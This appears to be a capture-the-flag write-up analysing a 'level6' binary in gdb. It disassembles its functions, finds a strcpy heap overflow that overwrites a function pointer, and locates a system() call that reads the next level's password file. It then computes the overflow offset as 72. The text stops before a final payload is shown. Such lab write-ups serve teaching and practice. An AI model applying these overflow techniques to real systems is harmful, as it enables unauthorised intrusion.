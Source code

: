 # GDB analysis

[`gdb`](https://linux.die.net/man/1/gdb) is useful for us to understand how a given binary works.

## Main function

Let's see what this program does...

```gdb
  $> gdb ./level6
  (gdb) disassemble main
  Dump of assembler code for function main:
    0x0804847c <+0>:     push   %ebp
    0x0804847d <+1>:     mov    %esp,%ebp
    0x0804847f <+3>:     and    $0xfffffff0,%esp       
    0x08048482 <+6>:     sub    $0x20,%esp
    0x08048485 <+9>:     movl   $0x40,(%esp)
    0x0804848c <+16>:    call   0x8048350 <malloc@plt> 
    0x08048491 <+21>:    mov    %eax,0x1c(%esp)        
    0x08048495 <+25>:    movl   $0x4,(%esp)
    0x0804849c <+32>:    call   0x8048350 <malloc@plt> 
    0x080484a1 <+37>:    mov    %eax,0x18(%esp)        
    0x080484a5 <+41>:    mov    $0x8048468,%edx        
    0x080484aa <+46>:    mov    0x18(%esp),%eax     
    0x080484ae <+50>:    mov    %edx,(%eax)
    0x080484b0 <+52>:    mov    0xc(%ebp),%eax
    0x080484b3 <+55>:    add    $0x4,%eax
    0x080484b6 <+58>:    mov    (%eax),%eax
    0x080484b8 <+60>:    mov    %eax,%edx
    0x080484ba <+62>:    mov    0x1c(%esp),%eax        
    0x080484be <+66>:    mov    %edx,0x4(%esp)
    0x080484c2 <+70>:    mov    %eax,(%esp)
    0x080484c5 <+73>:    call   0x8048340 <strcpy@plt> 
    0x080484ca <+78>:    mov    0x18(%esp),%eax        
    0x080484ce <+82>:    mov    (%eax),%eax
    0x080484d0 <+84>:    call   *%eax
    0x080484d2 <+86>:    leave
    0x080484d3 <+87>:    ret
  End of assembler dump.
```

> This `main()` calls [`malloc()`](https://man7.org/linux/man-pages/man3/malloc.3.html) twice, [`strcpy()`](https://man7.org/linux/man-pages/man3/strcpy.3.html) and a loaded address in **EAX** register.

## Additional functions

Since variable in `main()` holds a callable address, it might be a function pointer so, let's check for available functions in this program.

```gdb
  $> gdb ./level6
  (gdb) info functions

  All defined functions:

  Non-debugging symbols:
  0x080482f4  _init
  0x08048340  strcpy
  0x08048340  strcpy@plt
  0x08048350  malloc
  0x08048350  malloc@plt
  0x08048360  puts
  0x08048360  puts@plt
  0x08048370  system
  0x08048370  system@plt
  0x08048380  __gmon_start__
  0x08048380  __gmon_start__@plt
  0x08048390  __libc_start_main
  0x08048390  __libc_start_main@plt
  0x080483a0  _start
  0x080483d0  __do_global_dtors_aux
  0x08048430  frame_dummy
  0x08048454  n
  0x08048468  m
  0x0804847c  main
  0x080484e0  __libc_csu_init
  0x08048550  __libc_csu_fini
  0x08048552  __i686.get_pc_thunk.bx
  0x08048560  __do_global_ctors_aux
  0x0804858c  _fini
```

> We can see that some `m()`and `n()` function are available.

Disassembling `m()` gives us the following:

```gdb
  $> gdb ./level6
  (gdb) disassemble m
  Dump of assembler code for function m:
    0x08048468 <+0>:     push   %ebp
    0x08048469 <+1>:     mov    %esp,%ebp
    0x0804846b <+3>:     sub    $0x18,%esp
    0x0804846e <+6>:     movl   $0x80485d1,(%esp)
    0x08048475 <+13>:    call   0x8048360 <puts@plt>
    0x0804847a <+18>:    leave
    0x0804847b <+19>:    ret
  End of assembler dump.
```

> Only calls [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html) so, nothing really interesting here.

Disassembling `n()` gives us the following:

```gdb
  $> gdb ./level6
  (gdb) disassemble n
  Dump of assembler code for function n:
    0x08048454 <+0>:     push   %ebp
    0x08048455 <+1>:     mov    %esp,%ebp
    0x08048457 <+3>:     sub    $0x18,%esp
    0x0804845a <+6>:     movl   $0x80485b0,(%esp)
    0x08048461 <+13>:    call   0x8048370 <system@plt>
    0x08048466 <+18>:    leave
    0x08048467 <+19>:    ret
  End of assembler dump.
```

> Only calls [`system()`](https://man7.org/linux/man-pages/man3/system.3.html), probably a way to get the next password.

# Data

## Strings

```gdb
  0x0804845a <+6>:     movl   $0x80485b0,(%esp)
  
  (gdb) x/s 0x80485b0
  0x80485b0:       "/bin/cat /home/user/level7/.pass"
```

The string `/bin/cat /home/user/level7/.pass` is stored at address `0x80485b0` and it is used in function `n()` inside a `system()` call, it must be the way to get the next password.

```gdb
  0x0804846e <+6>:     movl   $0x80485d1,(%esp)
  
  (gdb) x/s 0x80485d1
  0x80485d1:       "Nope"
```

The string `Nope` is stored at address `0x80485d1` and it is used in function `m()`.

## Buffers size

```gdb
  0x08048485 <+9>:     movl   $0x40,(%esp)
  0x0804848c <+16>:    call   0x8048350 <malloc@plt> 
  ...
  0x08048495 <+25>:    movl   $0x4,(%esp)
  0x0804849c <+32>:    call   0x8048350 <malloc@plt>

  (gdb) print 0x40
  $1 = 64
```

There are two allocated buffers set in `main()` respectively **64** and **4** bytes long.

## Buffers offset

Since we know that programs uses `strcpy()` at some point, it is vulnerable to **buffer overflow**.

```gdb
  $> gdb ./level6
  (gdb) run `echo -e "import string\nprint ''.join([char * 4 for char in string.ascii_letters])" | python`
  Starting program: /home/user/level6/level6 `echo -e "import string\nprint ''.join([char * 4 for char in string.ascii_letters])" | python`

  Program received signal SIGSEGV, Segmentation fault.
  0x73737373 in ?? ()
```

> This little python script creates a string that look likes `aaaabbbbcccc....`. Since the program crashed on address `0x73737373` which is `ssss` the offset is equal to `4 * (Index of letter - 1)`. So this buffer offset is **72**.